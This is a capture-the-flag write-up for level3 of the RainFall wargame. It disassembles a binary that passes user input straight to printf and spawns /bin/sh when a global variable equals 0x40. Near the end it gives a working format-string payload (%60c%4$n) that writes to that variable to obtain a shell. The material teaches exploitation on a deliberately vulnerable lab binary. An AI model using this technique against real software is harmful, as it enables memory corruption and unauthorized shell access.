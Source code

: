 We start this level by looking at our executable with gdb:
```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

We notice a `v` function, let's have a look at it with `radare2`:
```bash
[0x080483f0]> pdf @ sym.v
            ; CALL XREF from sub.main_804851a @ 0x8048520(x)
┌ 118: sym.v ();
│ afv: vars(4:sp[0x20c..0x218])
│           0x080484a4      55             push ebp
│           0x080484a5      89e5           mov ebp, esp
│           0x080484a7      81ec18020000   sub esp, 0x218
│           0x080484ad      a160980408     mov eax, dword [obj.stdin]  ; obj.stdin__GLIBC_2.0
│                                                                      ; [0x8049860:4]=0
│           0x080484b2      89442408       mov dword [nitems], eax     ; FILE *stream
│           0x080484b6      c744240400..   mov dword [size], 0x200     ; [0x200:4]=-1 ; 512 ; int size
│           0x080484be      8d85f8fdffff   lea eax, [format]
│           0x080484c4      890424         mov dword [esp], eax        ; char *s
│           0x080484c7      e8d4feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x080484cc      8d85f8fdffff   lea eax, [format]
│           0x080484d2      890424         mov dword [esp], eax        ; const char *format
│           0x080484d5      e8b6feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x080484da      a18c980408     mov eax, dword [obj.m]      ; [0x804988c:4]=0
│           0x080484df      83f840         cmp eax, 0x40               ; '@' ; 64
│       ┌─< 0x080484e2      7534           jne 0x8048518
│       │   0x080484e4      a180980408     mov eax, dword [obj.stdout] ; obj.stdout__GLIBC_2.0
│       │                                                              ; [0x8049880:4]=0
│       │   0x080484e9      89c2           mov edx, eax
│       │   0x080484eb      b800860408     mov eax, str.Wait_what___n  ; 0x8048600 ; "Wait what?!\n"
│       │   0x080484f0      8954240c       mov dword [stream], edx     ; FILE *stream
│       │   0x080484f4      c74424080c..   mov dword [nitems], 0xc     ; [0xc:4]=-1 ; 12 ; size_t nitems
│       │   0x080484fc      c744240401..   mov dword [size], 1         ; size_t size
│       │   0x08048504      890424         mov dword [esp], eax        ; const void *ptr
│       │   0x08048507      e8a4feffff     call sym.imp.fwrite         ; size_t fwrite(const void *ptr, size_t size, size_t nitems, FILE *stream)
│       │   0x0804850c      c704240d86..   mov dword [esp], str._bin_sh ; [0x804860d:4]=0x6e69622f ; "/bin/sh" ; const char *string
│       │   0x08048513      e8a8feffff     call sym.imp.system         ; int system(const char *string)
│       │   ; CODE XREF from sym.v @ 0x80484e2(x)
│       └─> 0x08048518      c9             leave
└           0x08048519      c3             ret
```

This shows us a system call executing `/bin/sh`that we're going to try to exploit.
We are going to start by exploiting `printf`:
```bash
level3@RainFall:~$ ./level3
AAAA %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520
```

With this return we can deduce that our input is **stored in the 4th position relative to the first outputed %x**.

We know that the comparison goes like this:
```bash
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
```

So let's create a script using printf's **string formatting** to write **0x40 at the wanted address**
```bash
(python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"' && cat) | ./level3
```
- `print "\x8c\x98\x04\x08"` -> It places the address `0x0804988c` on the stack followed by a format string that prints 60 characters (using `%60c`) to prepare the exact number of bytes for the write operation.
- `"%60c%4$n"` -> Take the 4th argument from the stack, interpret it as a pointer, and write the number of characters printed so far into that pointer.

And we get our next flag !